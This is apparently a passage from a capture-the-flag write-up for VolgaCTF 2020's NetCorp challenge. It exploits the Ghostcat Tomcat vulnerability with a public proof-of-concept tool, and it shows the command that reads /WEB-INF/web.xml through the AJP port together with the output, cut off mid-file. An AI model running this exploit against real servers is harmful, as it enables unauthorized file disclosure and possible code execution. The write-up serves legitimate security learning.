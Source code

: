 After a bit of research, we find that this version of Tomcat is vulnerable to a [recently published CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) known as Ghostcat which allows for local file inclusion and, remote code execution if the server allows for file upload. There are many POCs for the exploit available on GitHub. [ajpShooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487) is one that allows for file read and eval of jsp code.

The [Tomcat documentation](https://tomcat.apache.org/tomcat-9.0-doc/appdev/deployment.html) provides the standard directory layout which gives us an idea of what files to look for.

We begin by reading the deployment description which is located at `/WEB-INF/web.xml` and provides a mapping for servlets and paths.

```bash
$ python ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1000-1585246342000"
[<] Last-Modified: Thu, 26 Mar 2020 18:12:22 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1000

<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>NetCorp</display-name>
  
  
  <servlet>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<display-name>ServeScreenshot</display-name>
  	<servlet-class>ru.volgactf.netcorp.ServeScreenshotServlet</servlet-class>
  </servlet>
  
  <servlet-mapping>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<url-pattern>/ServeScreenshot</url-pattern>
  </servlet-mapping>


	<servlet>
		<servlet-name>ServeComplaint</servlet-name>
		<display-name>ServeComplaint</display-name>
		<description>Complaint info</description>
		<servlet-class>ru.volgactf.netcorp.ServeComplaintServlet</servlet-class>
	</servlet>

	<servlet-mapping>
		<servlet-name>ServeComplaint</servlet-name>
		<url-pattern>/ServeComplaint</url-pattern>
	</servlet-mapping>

	<error-page>
		<error-code>404</error-code>
```